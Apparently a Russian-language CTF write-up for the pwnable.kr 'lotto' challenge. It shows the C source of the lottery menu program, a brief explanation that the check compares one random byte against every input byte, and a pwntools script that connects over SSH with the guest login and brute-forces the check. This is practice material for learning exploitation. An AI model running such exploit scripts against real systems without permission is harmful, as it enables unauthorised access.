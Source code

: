 ```c
  printf("nlotto is consisted with 6 random natural numbers less than 46\n");
  printf("your goal is to match lotto numbers as many as you can\n");
  printf("if you win lottery for *1st place*, you will get reward\n");
  printf("for more details, follow the link below\n");
  printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
  printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

  // menu
  unsigned int menu;

  while(1){

    printf("- Select Menu -\n");
    printf("1. Play Lotto\n");
    printf("2. Help\n");
    printf("3. Exit\n");

    scanf("%d", &menu);

    switch(menu){
      case 1:
        play();
        break;
      case 2:
        help();
        break;
      case 3:
        printf("bye\n");
        return 0;
      default:
        printf("invalid menu\n");
        break;
    }
  }
  return 0;
}
```

Проверяется один байт рандома с 6-ью байтами инпута, занчит все байты инпута должны быть одинаковыми, пишем скрипт и надеемся на рандом! Диапазон от 1 до 45

```python
from pwn import *

sh = ssh('lotto', 'pwnable.kr', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
  p.recv()
  p.sendline('1')
  p.recv()
  p.sendline('------')
  _ , ans = p.recvlines(2)
  if "bad" not in ans:
    print(ans)
    break
```
